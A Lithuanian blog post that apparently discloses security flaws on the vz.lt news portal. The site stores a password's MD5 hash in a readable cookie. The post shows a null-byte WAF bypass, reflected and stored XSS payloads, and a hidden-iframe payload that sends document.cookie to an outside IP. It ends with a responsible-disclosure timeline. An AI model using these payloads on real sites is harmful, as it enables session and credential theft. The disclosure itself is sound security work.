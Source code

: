 ﻿---
layout:     post
title:      "Kas skaito VŽ slapukus?"
date:       2022-05-02 08:00:00
categories: HackAndTell
cover:      manovz.svg); background-color:rgb(187,1,42); background-color:rgb(187,1,42
permalink:  /lt/blog/vz-slapukai
---
Atsitik tu man taip, kad naršydamas [Verslo Žinias](https://www.vz.lt) (VŽ) paspaudžiau "[uždraustą](https://techcrunch.com/2021/10/15/f12-isnt-hacking-missouri-governor-threatens-to-prosecute-local-journalist-for-finding-exposed-state-data/) [mygtuką](https://twitter.com/GovParsonMO/status/1448697768311132160)" F12. Dėmesį patraukė ilgas slapukų sąrašas:

![VŽ slapukų sąrašas](vz_slapukai.png "Slapukai")

Ten buvo slapukų su įdomiu pavadinimu [evercookie](https://en.wikipedia.org/wiki/Evercookie), bet ši istorija ne apie tai. Labiausiai kliuvo `VzLtLoginInfo`, kurio reikšmė buvo mano elektroninio pašto adresas, ir `VzLTLoginInfoPwd`, kurio reikšmė buvo 32-iejų raidžių ir skaičių kratinys. Kadangi savo slaptažodį puikiai žinau, greitai [patikrinau](https://emn178.github.io/online-tools/md5.html) hipotezę, kad tai jo MD5 reikšmė.

### Web programų 101

Reikia pasakyti, kad tai rimtas anti-pattern'as. Vartotojo slaptažodis turi būti perduodamas į serverį vieną vienintelį kartą per šifruotą HTTPS prisijungimą. Serveris nustato vartotojo tapatybę ir stateful architektūros atveju sukuria vartotojui sesiją. Tam serveris turi sugeneruoti tikrai atsitiktinį identifikatorių, kurio neįmanoma atspėti. Ir ne, [Math.random()](https://securitylab.github.com/advisories/GHSL-2020-228-YMFE-yapi/) ir kiti PRNG algoritmai tam netinka. Naršyklė gautą sesijos identifikatorių išsaugo pvz. slapuke.

Toliau naršyklė ir serveris bendrauja tik per sesijos identifikatorių. Vartotojo slaptažodis naršyklėje niekur nesaugomas jokiame pavidale iš kurio galima būtų atkurti jo pradinę reikšmę (MD5 yra super greitas, super pasenęs algoritmas, leidžiantis milžinišku greičiu surasti pradinį slaptažodį). Vartotojui atsijungus (angl. sign out) sesija serveryje yra panaikinama ir senas sesijos identifikatorius nebetenka jokios reikšmės.

### Na ir kas?

Galite paklausti: "Na ir kas čia tokio, kad slaptažodžio MD5 reikšmė išsaugoma slapuke? Juk ji išsaugoma mano kompiuteryje, mano naršyklėje ir neprieinama niekam kitam. Tik man ir serveriui, kuris ir taip mano slaptažodį žino." Galima būtų tiesiog pasijuokti iš tokio architektūrinio sprendimo ir tiek, bet pabandykime pademonstruoti jo įtaką saugumui.

Kaip matome `VzLtLoginInfoPwd` slapukas neturi `HttpOnly` atributo (t.y. JavaScript puslapio kodas turi teisę jį perskaityti) ir išrašytas visiems [vz.lt](https://vz.lt) subdomain'ams. Tai reiškia kad XSS pažeidžiamumo atveju bet kokiame iš [vz.lt](https://vz.lt) subdomain'ų ([www.vz.lt](https://www.vz.lt), [mano.vz.lt](https://mano.vz.lt), [login.vz.lt](https://login.vz.lt) ir t.t.) kenkėjiškas kodas gali jį pavogti. Sėkmingos vagystės atveju galima atkurti pradinį slaptažodį, bet tai net nesvarbu, nes pavogta MD5 reikšmė pati savaimė yra "prisijungimo bilietas". **Tačiau skirtingai nuo sesijos identifikatoriaus, pavogta reikšmė galioja tiek, kiek galioja vartotojo slaptažodis.**

### Ieškome XSS

Pabandykime surasti XSS VŽ portale... Po kurio laiko išryškėja pirmasis kandidatas: [https://www.vz.lt/apps/pbcs.dll/exec?name=asdf](https://www.vz.lt/apps/pbcs.dll/exec?name=asdf).

Serveris atsako pranešimu:

![ERROR: Script asdf is missing!](vz_script_asdf_is_missing.png "ERROR: Script asdf is missing!")

Tai, kad serveris "atspindi" mūsų įvestą reikšmę yra geras ženklas. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=<i>asdf</i>) ir gauname:

![SQL Injection. System will not process this request.](vz_sqli.png "SQL Injection. System will not process this request.")

Tas pats ir su [https://www.vz.lt/apps/pbcs.dll/exec?name=&lt;](https://www.vz.lt/apps/pbcs.dll/exec?name=<). Panašu į kažkokį savadarbį [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) (Web Application Firewall). Galima tik spėlioti prie ko čia SQL injekcija. Pabandome [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;i>asdf&lt;/i>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<i>asdf</i>) ir matome:

![ERROR: Script (italic pradžia) asdf (italic pabaiga) is missing!](vz_script_asdf_is_missing_italic.png "ERROR: Script asdf is missing!")

Įterpę nulinį baitą sėkmingai apėjome WAF, o serveris atvaizdavo mūsų HTML kodą. [Hello PHP](https://www.php.net/manual/en/security.filesystem.nullbytes.php)? :)

Tačiau įvedę [https://www.vz.lt/apps/pbcs.dll/exec?name=%00&lt;script>alert(1)&lt;/script>](https://www.vz.lt/apps/pbcs.dll/exec?name=%00<script>alert(1)</script>) serveris atsako:

![Access denied. Error 15. What happened? The request was blocked by security rules. Your IP: empty. Proxy IP: 107.154.76.234. Incident ID: empty. Powered by Imperva.](vz_access_denied.png "Access denied")

Panašu, kad VŽ naudoja dar vieną WAF – Imperva. Šis komercinis sprendimas turi ilgą šleifą taisytų klaidų ir nors jo apėjimo būdą yra sunkiau surasti, tačiau [nėra](https://www.google.com/search?q=imperva+xss+bypass) [neįmanoma](https://github.com/0xInfection/Awesome-WAF/blob/master/README.md#imperva). Vis dėlto yra lengvesnių kelių. [Openbugbounty](https://www.openbugbounty.org/) randame du įrašus apie XSS VŽ portale, apie kuriuos buvo pranešta Verslo Žinioms 2018 m. Sausio 19 d. ir 2018 m. Rugpjūčio 10 d.:

- [https://www.openbugbounty.org/reports/533348/](https://www.openbugbounty.org/reports/533348/)
- [https://www.openbugbounty.org/reports/661990/](https://www.openbugbounty.org/reports/661990/)

Antrasis yra "pridengtas" Imperva, tačiau pirmasis veikė iki šiol! WAF naudojimas negali būti priežastimi netaisyti žinomų pažeidžiamumų. Ar jis liko neištaisytas todėl, kad yra [akademija.vz.lt](https://akademija.vz.lt), o ne pagrindiniame subdomain'e [www.vz.lt](https://www.vz.lt)? Didelė klaida, nes šis subdomain'as gali skaityti `VzLtLoginInfoPwd` ir `VzLtLoginInfo` slapukus: [https://akademija.vz.lt/paieska/?q=">&lt;script>alert(document.cookie)&lt;/script>](https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ealert\(document.cookie\)%3c/script%3e).

![VŽ akademija alert pranešimas su visais slapukais.](vz_akademija_xss.png "Alert su slapukais")

### Kas iš to alert?

Vietoj `alert` kenkėjiškas kodas galėtų pavogti užklydusio vartotojo slapukus. Tai yra Reflected XSS, nes esamam vartotojui reikia atidaryti šią nuorodą, kad kodas būtų įvykdytas. Tačiau būtų klaidinga nuvertinti tai ir priskirti prie socialinės inžinerijos atakų. VŽ vartotojams, kurie naudoja Safari naršyklę nepasisekė - tereikėjo įterpti šį kodą `<iframe style="display:none" src="https://akademija.vz.lt/paieska/?q=%22%3e%3cscript%3ehttps://172.17.247.54:4443?c=&#x22;+document.cookie%3c/script%3e"></iframe>` į kokį nulaužtą puslapį, kurį jie aplanko ir slapukas būtų pavogtas jiems nematant. Iki 2020 m. vasaros tai taip pat veikė Chrome ir Firefox naršyklėse. Dabar tam reikia, kad slapukas būtų pažymėtas atributais `Secure` (leisti siųsti slapuką tiktai per HTTPS) ir `SameSite=None`. VŽ slapukai jų neturi.

Vis dėlto, yra kitas būdas, kuris veikia visur. Šis kodas kenkėjiškame puslapyje arba nulaužtame forume trumpam blykstelėjęs išsiustų [vz.lt](https://vz.lt) slapukus trečioms šalims.

<details>
  <summary style="cursor:pointer">▶ Proof of Concept:</summary>

  <script src="https://gist.github.com/jarlob/22dc518fbfbaa9b64653a220f9dce2e9.js"></script>
</details><br>

### XSS komentaruose Nr. 1

Komentarai - tai taikinys Nr. 1, nes leidžia įvesti kažką, kas bus parodyta kitiems vartotojams. Komentuojančio vartotojo vardas buvo tvarkingai atvaizduojamas net jei tas vardas turėjo specialių HTML simbolių kaip `Vardas<script>alert(1)</script>`. Tačiau jei į tokio vartotojo komentarą kas nors atsakydavo, jo vardas buvo interpretuojamas kaip HTML kodas. Taigi iš esmės užteko tam pačiam vartotojui atsakyti į savo paties komentarą, kad straipsnis su tokiu komentaru būtų "apkrėstas" kenkėjišku JavaScript kodų:  

![Stored VŽ XSS. Vartotojo su vardu &lt;script&gt;console.log(13)&lt;/script&gt; komentaras ir naršyklės developer tools console tabas su išvestu skaičiumi 13](vz_stored_xss1.png "Stored XSS")

Tikras kenkėjiškas kodas galėjo lengvai pamodifikuoti antraštę, kad nesimatytų `<i>` ir `<script>` pradiniame pranešime.  
Šis Stored XSS yra pavojingesnis už prieš tai aprašytą Reflected XSS nes:
1. Nereikia niekam siųsti specialiai paruoštų nuorodų arba apkrėtinėti trečiųjų šalių puslapių. Galima įterpti savo kodą tiesiai į VŽ komentarus. Aukai užtenka tiesiog atsiversti komentarų puslapį.  
2. WAF neapsaugo nuo tokio tipo atakos, nes nesugeba atskirti kur yra legitimus kodas, o kur yra įterptas.  

### XSS komentaruose Nr. 2

Po pranešimo VŽ pataisė šią spragą, o taip pat pradėjo filtruoti vartojo vardus vartotojo profilio nustatymuose. Tačiau pastebėjau dar vieną šio XSS atmainą. Tuo metu kai nieko neįtariantis vartotojas tik paspausdavo "Atsakyti" į kenkėjiško vartotojo komentarą, jo vardas vis dar būdavo interpretuojamas kaip HTML:

![Stored VŽ XSS. Vartotojo su vardu Mr&lt;script src=//45.rs&gt; komentaras ir iššokantis langas su tekstu www.vz.lt OK](vz_stored_xss2.png "Stored XSS")

Tai yra irgi Stored XSS, nors kiek mažiau pavojingas. Aukai reikėjo ne tik aplankyti užkrėsto straipsnio komentarus, bet ir paspausti "Atsakyti". Nors kai vartotojas norėdavo pasikeisti vardą, jis buvo filtruojamas, VŽ pamiršo filtruoti vartotojų vardus registracijos metų.

### Chronologija:

2022.01.28 - Išsiųstas el. laiškas VŽ Interneto produktų vystymo skyriaus vadovui ir [NKSC](https://www.cert.lt).  
2022.01.28 - Gautas patvirtinimas iš NKSC.  
2022.02.14 - NKSC pranešė, kad susisiekė su VŽ 2022.02.03 d. Dėl neaiškių aplinkybių mano el. laiškas jų nepasiekė.  
2022.02.14 - VŽ padėkojo ir pranešė, kad XSS ištaisytas, o "slapukų naudojimo planuojama atsisakyti".  
2022.03.09 - Išsiųstas el. laiškas apie Stored XSS VŽ komentaruose VŽ Interneto produktų vystymo skyriaus vadovui ir NKSC.  
2022.01.28 - NKSC pranešė, kad susisiekė su VŽ telefonu.  
2022.03.09 - VŽ padėkojo ir pranešė, kad pažeidžiamumas ištaisytas.  
2022.03.09 - Išsiųstas el. laiškas apie XSS kai vartotojas spaudžia "Atsakyti".  
2022.05.02 - VŽ vis dar saugo slaptažodžio hash reikšmę slapuke. Kiti pažeidžiamumai ištaisyti.  
